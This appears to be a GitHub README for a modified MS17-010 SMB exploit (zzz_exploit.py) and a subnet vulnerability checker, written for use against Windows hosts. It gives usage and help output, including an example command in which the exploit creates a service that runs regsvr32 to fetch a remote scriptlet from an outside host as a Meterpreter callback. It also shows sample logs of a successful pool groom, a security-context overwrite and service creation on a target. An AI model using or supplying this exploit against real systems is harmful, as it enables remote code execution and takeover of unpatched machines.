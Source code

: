 # MS17-010: Python
All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

The zzz_exploit.py found in this repo is the same exploit logic. But it has been made more dynamic. It is now possible to pass user and password with the -u and -p, respectively. A command to write to a service is passed with the -c option and the target and pipe are -t and -p. 

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)
ip_parser.py is just a script for parsing different IP/network formats. (192.168.0.0/24, 192.168.0.0-150, etc)

Here is the full help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1-100 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```

Sample output:
```
> # python zzz_exploit.py -t 10.10.11.53                                                                                                                                                     
[08:50:24]  [INFO]:     TARGET: 10.10.11.53
[08:50:24]  [ACTION]:   CONNECTING TO TARGET...
[08:50:24]  [ACTION]:   GETTING TARGET OS...
[08:50:24]  [INFO]:     TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:50:24]  [ACTION]:   GETTING PIPE...
[08:50:25]  [INFO]:     USING PIPE: spoolss
[08:50:25]  [INFO]:     TARGET ARCHITECTURE: 64 bit
[08:50:25]  [INFO]:     FRAG SIZE: 0x20
[08:50:25]  [INFO]:     GROOM_POOL_SIZE: 0x5030
[08:50:25]  [INFO]:     BRIDE_TRANS_SIZE: 0xf90
[08:50:25]  [ERROR]:    No transaction struct in leak data
[08:50:25]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:26]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:26]  [INFO]:     FLINK: 0xffffc000fafcd098
[08:50:26]  [INFO]:     InParam: 0xffffc000faf9116c
[08:50:26]  [INFO]:     MID: 0x3903
[08:50:26]  [ERROR]:    unexpected alignment, diff: 0x3b098
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:27]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:27]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:27]  [INFO]:     FLINK: 0xffffc000fafd9098
[08:50:27]  [INFO]:     InParam: 0xffffc000fafd316c
[08:50:27]  [INFO]:     MID: 0x3a03
[08:50:27]  [SUCCESS]:  SUCCESS CONTROLLING GROOM TRANSACTION
[08:50:27]  [ACTION]:   MODIFYING TRANS1 STRUCT FOR READ/WRITE
[08:50:27]  [ACTION]:   CREATING SYSTEM SESSION TO SMB...
[08:50:28]  [ACTION]:   OVERWRITING SESSION SECURITY CONTEXT
[08:50:28]  [INFO]:     Writing command to service:
[08:50:28]  [ACTION]:   OPENING SVCManager ON 10.10.11.53...
[08:50:28]  [ACTION]:   CREATING SERVICE PKfJ...
[08:50:28]  [ACTION]:   STARTING SERVICE PKfJ...
[08:50:29]  [ERROR]:    SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.                    
[08:50:29]  [ACTION]:   REMOVING SERVICE PKfJ...
[08:50:29]  [SUCCESS]:  FINISHED!
```
I wrote an article using Korey's payload and the new changes to the script, please see it [here](https://mez0.cc/posts/weaponised-worawit.html)


I made similar changes to checker.py, but the only additional logic I added was to be able to effectively run this script across a subnet. I imported the **netaddr** module and wrote a short for loop to run across the subnet.

Here is the help page for checker.py:

```
usage: checker.py [-h] [-u] [-p] [-t] [-tf] [--version]

MS17-010 Checker script

optional arguments:
  -h, --help            show this help message and exit
  -u , --user           Username to authenticate with
  -p , --password       Password for specified user
  -t , --target         Target (IP, range, CIDR) to check for MS17-010
  -tf , --target-file   Read from file. Can interpret CIDR and IP.
  --version             show program's version number and exit

Example: python checker.py -t 192.168.0.1-100
```
Sample output:
```
> # python checker.py -t 10.10.11.53                                                                                                                                                         
[08:37:25]  [INFO]: 	CONNECTED TO 10.10.11.53
[08:37:25]  [INFO]: 	TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:37:25]  [SUCCESS]: 	10.10.11.53 IS NOT PATCHED!
[08:37:25]  [ACTION]: 	CHECKING NAMED PIPES...
[08:37:25]  [SUCCESS]: 	spoolss: OK (64 bit)
[08:37:26]  [SUCCESS]: 	samr: OK (64 bit)
[08:37:26]  [SUCCESS]: 	netlogon: OK (64 bit)
[08:37:26]  [SUCCESS]: 	lsarpc: OK (64 bit)
[08:37:26]  [ERROR]: 	browser: STATUS_OBJECT_NAME_NOT_FOUND
```

Any further ideas, changes or fixes; please let me know!
